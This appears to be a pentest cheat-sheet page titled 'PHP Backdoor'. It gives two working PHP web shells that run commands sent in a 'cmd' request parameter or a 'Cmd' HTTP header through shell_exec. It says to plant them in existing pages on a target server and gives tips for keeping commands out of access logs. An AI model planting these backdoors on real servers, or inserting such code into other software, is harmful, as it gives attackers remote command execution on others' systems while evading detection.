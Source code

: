 # PHP Backdoor

This can be used for web servers that have PHP enabled. If there’s existing PHP pages, the backdoor snippet can be added to them. If not, a new PHP file can be created.

Simple command execution backdoor:

```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```

A couple useful tips — with the above code you can use either GET or POST requests to send commands. With GET requests all your commands will end up in the web server’s access logs, so POST is a bit sneakier. Even more sneakier option is to pass commands through an HTTP request header, you can use the following modified snippet for that:

```
<?php
    if (isset($_SERVER['HTTP_CMD'])) {
        echo "<pre>" . shell_exec($_SERVER['HTTP_CMD']) . "</pre>";
    }
?>
```

You can do a GET (or POST) request and pass commands in a `Cmd` HTTP header.

More info: look in `/usr/share/webshells/php` on your Kali machine
